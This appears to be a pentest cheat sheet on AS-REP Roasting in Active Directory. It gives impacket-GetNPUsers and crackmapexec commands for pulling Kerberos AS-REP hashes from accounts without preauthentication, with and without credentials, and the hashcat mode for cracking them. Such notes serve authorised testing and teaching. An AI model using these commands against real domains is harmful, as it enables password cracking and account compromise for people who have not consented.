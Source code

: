 # AS-REP Roasting
AS-REP attacks do not require the attacker to know the password for the account they are attempting to compromise. The attacker can obtain an AS-REP hash, crack it and obtain the password, provided the Kerberos preauthentication feature is disabled for that account.

When having credential for a non pre-auth account, the attacker can get the AS-REP hash for all non pre-auth accounts.

hashcat -m 18200

Without creds - users from file:
`impacket-GetNPUsers -dc-ip <IP> '<DOMAIN>/' -usersfile <USERLIST>` 

With creds - all non pre-auth accounts from domain:
`impacket-GetNPUsers -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>' -request`
`crackmapexec ldap <IP> -u '<USER>' -p '<PASS>' --asreproast <OUTPUT.TXT>`